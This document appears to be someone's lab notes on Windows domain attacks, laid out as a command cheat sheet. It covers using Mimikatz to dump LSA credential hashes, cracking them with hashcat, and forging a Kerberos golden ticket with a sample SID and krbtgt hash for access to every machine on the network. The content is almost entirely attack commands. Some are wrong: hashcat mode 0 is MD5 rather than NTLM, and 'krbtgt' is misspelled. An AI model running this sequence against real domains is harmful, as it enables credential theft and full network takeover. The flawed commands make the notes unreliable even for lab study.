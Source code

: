 **Download [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)**

```powershell
mimikatz.exe
```

**Check if running as an administrator**
```text
mimikatz # privilege::debug
```
Shoud return `Privilege '20' OK`

**Dump the hashes**
```text
mimikatz # lsadump::lsa /patch
```

**Crack NTLM**
```shell
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
```

##### Golden ticket
**Dump hashes and Kerberos security identifier**
```text
mimikatz # lsadump::lsa /inject /name:krbtg
```
![[Screenshot_2024-07-25_09-53-22.png]]

**Create the golden ticket**
```text
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
```

**Open new prompt with elevated privileges to all machine**
```text
mimikatz # misc::cmd
```

I will now have access to all other machine on the network

